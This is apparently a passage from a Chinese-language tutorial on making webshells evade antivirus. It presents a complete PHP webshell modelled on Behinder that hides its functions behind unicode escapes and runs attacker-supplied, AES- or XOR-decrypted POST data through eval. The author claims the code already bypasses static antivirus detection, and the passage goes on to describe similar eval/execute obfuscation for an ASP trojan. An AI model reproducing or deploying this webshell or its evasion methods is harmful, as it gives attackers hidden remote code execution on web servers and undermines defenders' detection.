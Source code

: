 ```php
<?php
@error_reporting(0);
session_start();

//unicode解码函数
function xx($unicode_str){
    $json = '{"str":"'.$unicode_str.'"}';
    $arr = json_decode($json,true);
    if(empty($arr)) return '';
    return $arr['str'];
}

if (isset($_GET['pass']))
{
    //调用解码函数返回原函数字符串
    $key=xx("\u0073\u0075\u0062\u0073\u0074\u0072")(xx("\u006d\u0064\u0035")(xx("\u0075\u006e\u0069\u0071\u0069\u0064")(xx("\u0072\u0061\u006e\u0064")())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
	$post=xx("\u0066\u0069\u006c\u0065\u005f\u0067\u0065\u0074\u005f\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0073")(xx("\u0070\u0068\u0070\u003a\u002f\u002f\u0069\u006e\u0070\u0075\u0074"));
	if(!xx("\u0065\u0078\u0074\u0065\u006e\u0073\u0069\u006f\u006e\u005f\u006c\u006f\u0061\u0064\u0065\u0064")('openssl'))
	{
		$t=xx("\u0062\u0061\u0073\u0065\u0036\u0034\u005f").xx("\u0064\u0065\u0063\u006f\u0064\u0065");

		$post=$t($post."");
		
		for($i=0;$i<xx("\u0073\u0074\u0072\u006c\u0065\u006e")($post);$i++) {

    			 $post[$i] = $post[$i]^$key[$i+1&15]; 

    			}
	}
	else
	{
		$post=xx("\u006f\u0070\u0065\u006e\u0073\u0073\u006c\u005f\u0064\u0065\u0063\u0072\u0079\u0070\u0074")($post,xx("\u0041\u0045\u0053\u0031\u0032\u0038"), $key);
	}
    $arr=xx("\u0065\u0078\u0070\u006c\u006f\u0064\u0065")('|',$post);

    $func=$arr[0];

    $params=$arr[1];

	class C{public function __invoke($p) {eval($p."");}}
    @xx("\u0063\u0061\u006c\u006c\u005f\u0075\u0073\u0065\u0072\u005f\u0066\u0075\u006e\u0063")(new C(),$params);
}
?>
```
我只是部分进行了改变，这样已经完全可以进行静态免杀了，当然大家也可以进一步细化。
#### asp木马：  
asp语法单一，在免杀方面确实没有什么比较好的方式，当然我们也同样可以利用asp函数的特性来进行随意变换以达到免杀的目的，比如冰蝎asp木马里面的execute(result)语句，我们可以把execute(result)变成eval("execute(result)")，因为在asp里面，像eval和execute，会把字符串当作表达式来执行，而且使用eval嵌套execute也是可行的。当然我们可以进一步，创建一个数组，用来组合免杀。为了和别的脚本统一，我还是使用unicode进行脚本改写：
